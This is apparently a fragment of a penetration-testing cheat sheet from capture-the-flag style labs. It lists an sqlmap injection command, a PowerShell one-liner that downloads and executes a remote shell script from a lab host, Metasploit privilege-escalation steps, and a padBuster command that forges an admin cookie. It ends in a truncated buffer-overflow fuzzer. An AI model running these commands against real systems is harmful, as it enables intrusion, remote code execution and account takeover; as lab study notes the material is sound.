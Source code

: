     sqlmap -r admin.cronos.req --level 5 --risk 3 --threads 10
    

Windows
=======

### PowerShell :

#### use file from the internet :

    IEX(New-Object Net.WebClient).downloadString(‘http://10.10.10.10:8080/shell.ps1’)
    

#### Privesc - MetaSploit :

    search suggest
    post/multi/recon/local_exploit_suggester
    set SESSION 1
    (powerup ?)
    

Shell :
-------

Database
========

### Cookie :

### padBuster :

    perl padBuster.pl http://10.10.10.10/index.php uBIcLBJyjARxQ7ooer8gpdI4sSUCfulk 8 auth=uBIcLBJyjARxQ7ooer8gpdI4sSUCfulk -plaintext user=admin
    

Monitoring
==========

### Network

#### netstat :

    watch "netstat -an | grep 4001"
    

#### lsof :

    watch "lsof -i 4001"
    

Buffer Overflow
===============

### Fuzzing :

    #!/usr/bin/env python
    
    import socket
    import time
    